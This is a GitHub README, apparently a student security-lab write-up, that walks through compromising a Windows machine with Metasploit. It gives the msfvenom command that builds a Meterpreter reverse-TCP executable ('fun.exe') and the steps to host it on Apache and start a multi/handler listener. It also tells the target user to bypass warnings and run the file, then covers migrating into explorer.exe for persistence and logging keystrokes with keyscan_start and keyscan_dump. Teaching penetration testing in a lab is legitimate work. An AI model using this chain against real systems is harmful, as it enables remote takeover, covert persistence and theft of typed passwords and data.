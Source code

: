 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
![exp6_1](https://github.com/user-attachments/assets/2d594c6f-42da-4d42-a36b-28542ccc6d23)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![exp6_2](https://github.com/user-attachments/assets/65653a12-329f-43b3-9032-594694b0ddaf)

copy the fun.exe into the apache /var/www/html folder
![exp6_3](https://github.com/user-attachments/assets/ce07d36c-da61-489b-b938-16dbc0b462ca)

Start apache server sudo systemctl apache2 start
![exp6_4](https://github.com/user-attachments/assets/d8a2213f-6b0c-4f3f-bb80-58c9fa047177)

Check the status of apache2
![exp6_5](https://github.com/user-attachments/assets/f5ea45b6-f430-4284-aa91-936f59d1aed8)

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![exp6_6](https://github.com/user-attachments/assets/47ca61b4-94f2-4c12-8117-e4a530b973fe)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![exp6_7](https://github.com/user-attachments/assets/f6705ed8-bbb3-43dc-a822-cbe5f17435eb)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![exp6_8](https://github.com/user-attachments/assets/656d275c-175e-4460-8809-07b9de09b03c)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![exp6_9](https://github.com/user-attachments/assets/1db3c4e8-5954-4876-9630-82a5e52a1cf0)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![exp6_10](https://github.com/user-attachments/assets/1378325a-be9d-42e8-9afd-04c46c2d0231)

keyscan_dump Shows the keystrokes captured so far

![exp6_11](https://github.com/user-attachments/assets/269031dc-7a8d-43e0-aa51-11e62be30b25)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
